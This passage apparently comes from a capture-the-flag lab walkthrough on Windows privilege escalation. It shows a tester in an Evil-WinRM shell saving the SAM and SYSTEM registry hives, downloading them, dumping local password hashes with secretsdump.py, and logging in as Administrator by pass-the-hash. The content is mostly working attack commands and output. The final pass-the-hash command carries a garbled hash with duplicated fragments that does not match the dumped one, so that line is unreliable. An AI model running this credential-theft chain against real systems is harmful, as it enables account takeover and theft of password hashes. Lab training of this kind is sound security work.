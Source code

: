 ```shell-session
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label S-1-16-12288
```

We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:


```shell-session
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
 The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
 The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
 Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
 Info: Download successful!
```

**Note:** If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using`secretsdump.py` or other similar tools:


```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4899f69e89088c4cb4bbdaa3cb4bbdaa3
```

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)
